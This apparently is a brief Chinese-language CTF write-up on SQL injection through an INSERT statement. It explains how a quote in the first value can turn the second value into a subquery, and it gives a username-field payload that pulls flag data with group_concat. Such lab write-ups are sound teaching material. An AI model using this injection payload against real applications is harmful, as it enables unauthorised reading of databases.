 # 知识点
与前面update注入的逻辑相似
# 思路
```plsql
insert into table_name(column1, column2) value(value1,value2)
# 向value1进行注入，就会变成
insert into table_name(column1, column2) value(value1,(你想要输出的值))#value2)
```
```plsql
username=123',(select  group_concat(flagass23s3) from flag))%23&password=123
```
